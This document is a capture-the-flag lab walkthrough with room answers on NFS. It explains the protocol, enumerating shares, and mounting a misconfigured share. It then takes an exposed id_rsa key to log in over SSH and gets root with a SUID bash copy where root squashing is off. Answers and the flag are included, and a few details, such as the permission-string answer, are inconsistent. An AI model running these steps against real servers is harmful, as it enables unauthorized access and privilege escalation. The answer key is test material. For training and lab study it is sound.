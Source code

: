 # Network services 2
## Understanding NFS
#### What is NFS?
NFS stands for "**Network File System**" and allows a system to share directories and files with others over a network.
#### How does NFS work?
1.  The client will request to **mount** a directory from a remote host on a local directory.
2. The mount service will then act to connect to the relevant mount daemon using **RPC**.
3. The server checks if the user has permission to mount whatever directory has been requested.
4. It will then return **a file handle** which uniquely identifies each file and directory that is on the server.
#### What runs NFS?
Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or UNIX.

   + **_Answers_**
   
    What does NFS stand for?
    - Network File System.
    What process allows an NFS client to interact with a remote directory as though it was a physical device?
    - mounting 
    What does NFS use to represent files and directories on the server?
    - file handle
    What protocol does NFS use to communicate between the server and client?
    - RPC
    What two pieces of user data does the NFS server take as parameters for controlling user permissions? Format: parameter 1 / parameter 2
    - user id / group id
    Can a Windows NFS server share files with a Linux client? (Y/N)
    - Y
    Can a Linux NFS server share files with a MacOS client? (Y/N)
    - Y
    What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.
    - 4.2

## Enumerating NFS
#### What is Enumeration?
the process which establishes an active connection to the target hosts to discover potential attack vectors in the system, and the same can be used for further exploitation of the system.
###### Enumeration is used to gather the following:
 Usernames, group names ,Hostnames, Network shares and services, IP tables and routing tables
 Service settings and audit configurations, Application and banners, SNMP and DNS details
 #### NFS-Common
It's a package includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.
We are concerned with "**showmount**" and **"mount.nfs"** as these are useful when it comes to extracting information from the NFS share.
###### Nfs-common installation
    sudo apt-get install nfs-common
##### Enumeration steps
1. **Port scanning** (_to find out as much information as you can about the services, open ports and operating system of the target machine_) using nmap with the -A and -p- tags.
2. **Mounting NFS shares** : The client’s system needs a directory where all the content shared by the host server in the export folder can be accessed.create
this folder anywhere on your system.Now, use the "mount" command to connect the NFS share to the mount point on client's machine.
###### creat the mount point with

    sudo mount -t nfs IP:share /tmp/mount/ -nolock
**_Answers_**

        Conduct a thorough port scan scan of your choosing, how many ports are open?
        - 7        "scanning with (nmap -A -T4  10.10.57.87 -p- -vv) command"
        Which port contains the service we're looking to enumerate?
        -2049      "from scanning"
         what is the name of the visible share?
        - /home    "use (/usr/sbin/showmount -e 10.10.57.87) command"
        what is the name of the folder inside?
        - cappucino   "use (sudo mount -t nfs 10.10.57.87:/home /tmp/mount/ -nolock) command             then /tmp/mount/ and ls"
        Which of these folders could contain keys that would give us remote access to the               server?
        - .ssh  "use(ls -lah or -a)"
        Which of these keys is most useful to us?
        - id_rsa " use( cd .ssh) then ( ls -lah or -a)"   id_rsa is the private key.
        
        Copy this file to a different location your local machine, and change the                       permissions to "600" using "chmod 600 [file]". 
        Assuming we were right about what type of directory this is, we can pretty easily               work out the name of the user this key corresponds to.   
        Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)
       - cp id_rsa ~/id_rsa   "make a copy in home directory"
       - sudo chmod 600 id_rsa    "change the permission"
       - cat is_rsa.pub            "to get the username"
       - sudo ssh -i id_rsa cappucino@10.10.57.87     "to access remotly" 
## Exploiting NFS

- Root Squashing is enabled by default on NFS shares, and prevents anyone connecting to the NFS share from having root access to the NFS volume.
- If the root squashing is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.
##### what are files with the SUID bit set?
the file or files can be run with the permissions of the file(s)owner/group.
**_Answers_**

      First, change directory to the mount point on your machine, where the NFS            share should still be mounted, and then into the user's home directory.
       ###### password is password 
   
   
![image](https://github.com/user-attachments/assets/6149195f-946d-4797-b0e2-fc8d6b7530ac)



      Download the bash executable to your Downloads directory. Then use "cp                ~/Downloads/bash ." to copy the bash executable to the NFS share. The             copied bash shell must be owned by a root user, you can set this using "sudo       chown root bash"
      1- copy the  .bash from  its directory to the nfs share 
   
  ![image](https://github.com/user-attachments/assets/65039afd-37f6-4bb5-b3c4-bf0447447982)

      2- change the file owner by a root user

   ![image](https://github.com/user-attachments/assets/59a39c19-2545-45f1-af53-e8dd512f789f)

      Now, we're going to add the SUID bit permission to the bash executable we           just copied to the share using "sudo chmod +[permission] bash". What letter         do we use to set the SUID bit set using chmod?
      - s
   
   ![image](https://github.com/user-attachments/assets/6a879b90-ce73-485b-88af-526ce71d2505)

      Let's do a sanity check, let's check the permissions of the "bash" executable       using "ls -la bash". What does the permission set look like? Make sure              that it ends with -sr-x.
      - -rwxr-xr-x
      Now, SSH into the machine as the user. List the directory to make sure the          bash executable is there. Now, the moment of truth. Lets run it with
      "./bash -p". The -p persists the permissions, so that it can run as root with       SUID- as otherwise bash will sometimes drop the permissions.
      Great! If all's gone well you should have a shell as root! What's the root          flag?
      - THM{nfs_got_pwned}

   ![image](https://github.com/user-attachments/assets/e638c2f3-5f1f-44c8-a08a-eb9caa6f7ce4)
.![image](https://github.com/user-attachments/assets/18ea8c1e-720a-4fff-85ed-695677d6696a)
![image](https://github.com/user-attachments/assets/f3ccd626-31ec-4b11-9e93-ce1caf9ff177)



      
      
   




        

    



  




    


